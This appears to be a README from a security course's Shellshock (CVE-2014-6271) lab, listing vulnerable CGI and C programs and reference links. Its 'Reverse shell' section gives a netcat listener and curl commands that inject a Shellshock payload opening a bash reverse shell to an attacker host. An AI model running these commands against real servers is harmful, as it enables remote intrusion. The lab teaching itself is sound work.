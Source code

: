 # Shellshock Attack

There is no source code in this chapter?! Just kidding :smirk:

## 1. code list
* [phpinfo.php](.phpinfo.php): show all PHP configuration information
* [env.php](./env.php): pass browser input to server environment variables
* [vul.c](./vul.c): program vulnerable to shell-shock attack
* [variable.c](./variable.c): the buggy code entails shell-shock vulnerability
* [phpinfo.php](./phpinfo.php): show all configuration information of the web server
* [myprog2.cig](../../../../labs/lab04/code/myprog2.cgi): a *hello world* cgi program in bash script
* [myprog3.cig](../../../../labs/lab04/code/myprog3.cgi): a *vulnerable* cgi program in bash script

## 2. Reverse shell
```bash
# 1. on the attack machine
nc -lv 9090

# 2. exploit cgi
curl -A "() { echo normal; }; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/attackIP/ncPort 0<&1 2>&1" http://serverIP/cgi-bin/cgiProgram

# 3. exploit php, the quotes quote the URL encoding of that in # 2.
curl http://serverIP/phpProgram.php?arg="%28%29%20%7B%20echo%20normal%3B%20%7D%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20echo%3B%20%2Fbin%2Fbash%20-i%20%3E%20%2Fdev%2Ftcp%2FattackIP%2FncPort%200%3C%261%202%3E%261"

# or ?

curl http://serverIP/phpProgram.php?arg="()20%7B%20echo%20normal%3B%20%7D%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20echo%3B%20%2Fbin%2Fbash%20-i%20%3E%20%2Fdev%2Ftcp%2FattackIP%2FncPort%200%3C%261%202%3E%261"
```

## 3. References
* Command-line HTTP clients
  * [HTTPie](https://httpie.org/)
  * [HTTP Prompt](http://http-prompt.com/)
* Client URL
  * [cURL](https://en.wikipedia.org/wiki/CURL)
    * [curl](https://curl.haxx.se/)
    * [source code](https://github.com/curl/curl)
    * [https://curl.haxx.se/docs/comparison-table.html](https://curl.haxx.se/docs/comparison-table.html)
  * [wget](http://www.gnu.org/software/wget/)
* [SEED Shellshock Attack Lab](https://seedsecuritylabs.org/Labs_16.04/Software/Shellshock/)
* [Shellshock (software bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
  * [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)
  * [Alert (TA14-268A)](https://us-cert.cisa.gov/ncas/alerts/TA14-268A)
  * [CVE-2014-6271 Detail](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [netcat](https://en.wikipedia.org/wiki/Netcat)
* [How To Customize Bash Prompt in Linux](https://phoenixnap.com/kb/change-bash-prompt-linux)
* [URL Encode/Decode](https://www.urlencoder.org/)
